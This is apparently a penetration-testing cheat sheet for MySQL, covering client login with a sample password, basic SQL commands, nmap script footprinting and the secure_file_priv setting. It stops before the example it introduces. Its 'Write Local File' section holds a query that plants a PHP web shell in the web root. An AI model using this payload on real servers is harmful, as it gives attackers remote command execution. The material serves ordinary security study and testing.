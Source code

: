 ```yaml
---
layout: default
---
```


# MySQL
## Interaction
```bash
$ mysql -u root -h <IP>
$ mysql -u root -pP4SSw0rd -h <IP> -P 3306
```
                      
| Command                                            | Description                                             |
|----------------------------------------------------|---------------------------------------------------------|
| show databases;                                    | Show all databases.                                     |
| use <database>;                                    | Select one of the existing databases.                   |
| show tables;                                       | Show all available tables in the selected database.     |
| show columns from <table>;                         | Show all columns in the selected database.              |
| select * from <table>;                             | Show everything in the desired table.                   |
| select * from <table> where <column> = "<string>"; | Search for the needed string in the desired table.      |


## Footprinting
```bash
$ sudo nmap <IP> -sV -sC -p3306 --script mysql*
```

## Write Local File
```sql
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';

Query OK, 1 row affected (0.001 sec)
```

In MySQL, a global system variable secure_file_priv limits the effect of data import and export operations, such as those performed by the LOAD DATA and SELECT … INTO OUTFILE statements and the LOAD_FILE() function. These operations are permitted only to users who have the FILE privilege.

secure_file_priv may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

In the following example, we can see the secure_file_priv variable is empty, which means we can read and write data using MySQL:
